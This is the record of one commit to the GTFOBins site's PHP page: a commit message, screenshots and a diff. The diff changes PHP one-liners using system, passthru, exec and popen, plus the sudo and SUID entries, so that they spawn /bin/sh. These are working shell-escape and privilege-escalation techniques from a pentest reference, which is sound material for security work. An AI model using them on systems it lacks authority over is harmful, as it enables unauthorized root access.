

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/php.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix PHP interactive functions

```diff
--- a/_gtfobins/php.md
+++ b/_gtfobins/php.md
@@ -1,31 +1,32 @@
 ---
 functions:
+  execute-interactive:
+  - code: |
+      export CMD="/bin/sh"
+      php -r 'system(getenv("CMD"));'
+  - code: |
+      export CMD="/bin/sh"
+      php -r 'passthru(getenv("CMD"));'
+  - code: |
+      export CMD="/bin/sh"
+      php -r 'print(shell_exec(getenv("CMD")));'
+  - code: |
+      export CMD="/bin/sh"
+      php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
+  - code: |
+      export CMD="/bin/sh"
+      php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
   execute-non-interactive:
-    - code: |
-        export CMD="id"
-        php -r 'system(getenv("CMD"));'
-    - code: |
-        export CMD="id"
-        php -r 'passthru(getenv("CMD"));'
-    - code: |
-        export CMD="id"
-        php -r 'print(shell_exec(getenv("CMD")));'
-    - code: |
-        export CMD="id"
-        php -r '$r=array(); exec(getenv("CMD"), $r); print(join(\"\\n\",$r));'
-    - code: |
-        export CMD="id"
-        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
     - code: |
         export CMD="id"
         php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
   sudo-enabled:
     - code: |
-        CMD="id"
+        CMD="/bin/sh"
         sudo php -r "system('$CMD');"
   suid-enabled:
     - code: |
-        CMD="id"
+        CMD="/bin/sh"
         ./php -r "system('$CMD');"
   upload:
     - description: Serve files in the local folder running an HTTP server.
```
